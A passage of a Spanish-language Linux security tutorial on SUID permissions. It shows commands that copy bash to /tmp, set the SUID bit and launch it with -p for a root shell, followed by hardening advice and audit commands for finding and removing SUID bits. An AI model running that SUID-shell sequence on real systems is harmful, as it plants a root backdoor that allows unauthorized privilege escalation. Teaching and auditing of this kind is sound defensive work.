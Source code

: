 ### Acción:

```bash
cp /bin/bash /tmp/bash_suid
chmod +s /tmp/bash_suid
ls -l /tmp/bash_suid
```

### Resultado:

```bash
-rwsr-xr-x 1 root root 1037528 Jun 14 14:30 /tmp/bash_suid
```

### Explicación:

- Hemos copiado `bash` a `/tmp` y le hemos puesto el bit SUID.
    
- Ahora si ejecutamos `/tmp/bash_suid` como usuario normal:
    

```bash
/tmp/bash_suid -p
```

Obtendremos una shell con permisos de root.

---

## Riesgos y recomendaciones

- Los permisos SUID mal configurados son una fuente común de escalada de privilegios.
    
- Es crucial limitar y auditar todos los archivos que tengan este bit.
    
- Nunca asignar SUID a binarios que puedan ser manipulados para ejecutar código arbitrario.
    
- Utilizar herramientas de auditoría automatizadas para detectar permisos SUID inesperados.
    
- Mantener el sistema actualizado para evitar vulnerabilidades en binarios con SUID.
    

---

## Comandos útiles para auditar y mitigar

- Listar todos los archivos SUID:
    

```bash
find / -perm -4000 -type f 2>/dev/null
```

- Cambiar permisos para quitar SUID:
    

```bash
chmod u-s /ruta/al/archivo
```

---